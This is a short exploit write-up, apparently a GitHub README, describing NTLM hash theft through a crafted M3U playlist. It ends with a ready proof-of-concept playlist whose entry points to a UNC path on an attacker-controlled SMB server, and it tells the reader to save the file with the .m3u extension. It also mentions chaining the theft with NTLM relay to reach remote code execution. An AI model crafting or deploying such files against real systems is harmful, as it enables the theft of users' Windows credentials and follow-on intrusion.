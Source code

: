 # NTLM-THEFT VIA M3U FILE 

Rather than exploiting the vulnerability in Microsoft Word files or Outlook’s handling of RTF files, an attackers will take the 

advantage of "M3U file extension Audio Playlist" a  file that stands for MP3 URL, the m3u file , isn't an actual audio file in and 

of itself. 

An M3U file just points to audio (and sometimes video) files so that a media player can queue them for playback. These text-based 

files can contain URLs and/or absolute or relative pathnames to the media files and/or folders.

The attacker can then use this to inject malicious content into a “M3U” file  ex : SMB Server , so when that file  is opened, the 

target automatically leaks credentials in the form of NTLM hashes.

# NOTE:  RCE can be achieved by chaining NTLM theft with smb signing disabled using ntlm relay .




Tested on windows 7  “all player"



PoC :

#EXTM3U
#EXTINF:-1,leak_it_please
\\attacker_smb_server\xFolder

Save it as m3u extention.

Author : Soufian El Hachmi
